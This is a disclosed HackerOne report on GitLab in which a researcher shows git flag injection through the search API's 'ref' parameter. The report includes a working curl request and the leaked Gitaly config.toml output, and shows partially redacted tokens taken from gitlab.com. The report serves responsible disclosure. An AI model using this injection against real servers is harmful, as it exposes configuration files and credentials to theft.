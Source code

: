 # Git flag injection - Search API with scope 'blobs' 

## Report Details
- **Report ID**: 682442
- **URL**: https://hackerone.com/reports/682442
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-08-26T23:47:50.929Z
- **Disclosed**: 2019-12-15T20:21:20.667Z

## Reporter
- **Username**: vakzz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
As requested from @hackerjuan, breaking this out of https://hackerone.com/reports/658013 for easier tracking.

## Summary
Gitlab 12.1.6 fixed the `wiki_blobs` scope of the search api, but the `blobs` scope is still vulnerable to git flag injection and allows reading any file in `/var/opt/gitlab/gitaly` including `config.toml`.

## Steps to reproduce
Make a search API call setting the `ref` parameter to `--no-index`, `search` to a common character such as `.` or `a`, and `scope` to `blobs`:

```bash
curl --header "PRIVATE-TOKEN: $TOKEN" 'http://gitlab-vm.local/api/v4/projects/4/search?scope=blobs&search=.&ref=--no-index

[{"basename":null,"data":"VERSION\u00001\u0000Gitaly, version 1.53.2\n","filename":null,"id":null,"ref":"--no-index","startline":0,"project_id":4},{"basename":null,"data":"config.toml\u00001\u0000# Gitaly configuration file\nconfig.toml\u00002\u0000# This file is managed by gitlab-ctl. Manual changes will be\nconfig.toml\u00003\u0000# erased! To change the contents below, edit /etc/gitlab/gitlab.rb\nconfig.toml\u00004\u0000# and run:\nconfig.toml\u00005\u0000# sudo gitlab-ctl reconfigure\nconfig.toml\u00006\u0000\nconfig.toml\u00007\u0000socket_path = '/var/opt/gitlab/gitaly/gitaly.socket'\nconfig.toml\u00008\u0000bin_dir = '/opt/gitlab/embedded/bin'\nconfig.toml\u00009\u0000\n","filename":null,"id":null,"ref":"--no-index","startline":0,"project_id":4}]
```

The ref parameter ends up being passed to `git grep` and setting it to `--no-index` includes the current working directory and files not managed by git:

```
/opt/gitlab/embedded/bin/git --git-dir /var/opt/gitlab/git-data/repositories/@hashed/6b/86/6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b.git grep --ignore-case -I --line-number --null --before-context 2 --after-context 2 --perl-regexp -e a --no-index
```

## Impact

The `config.toml` can contain sensitive information, api keys and tokens. For example on `gitlab.com` it contain the sentry.io api tokens as well as the gitaly token:

```
https://gitlab.com/api/v4/projects/2009901/search?scope=blobs&search=a&ref=--no-index

sentry_dsn = 'https://927bee37df654608xxxxxxxxxxxxxxxx:0324504ee7844264xxxxxxxxxxxxxxxx@sentry.gitlab.net/16
ruby_sentry_dsn = 'https://8ff7dd344e1d4976xxxxxxxxxxxxxxxx:bb9d785b3fe7447bxxxxxxxxxxxxxxxx@sentry.gitlab.net/29

token = 'yfZTE0Oxxxxxxx'
```

I haven't looked into what is possible with the above tokens as potentially there is sensitive information in sentry.io. 

Let me know if you have any questions or require any other information.

Cheers,
Will

## Impact

Read access to any file in `/var/opt/gitlab/gitaly` including `config.toml` which may contain sensitive information, tokens, and API keys

## Attachments
No attachments
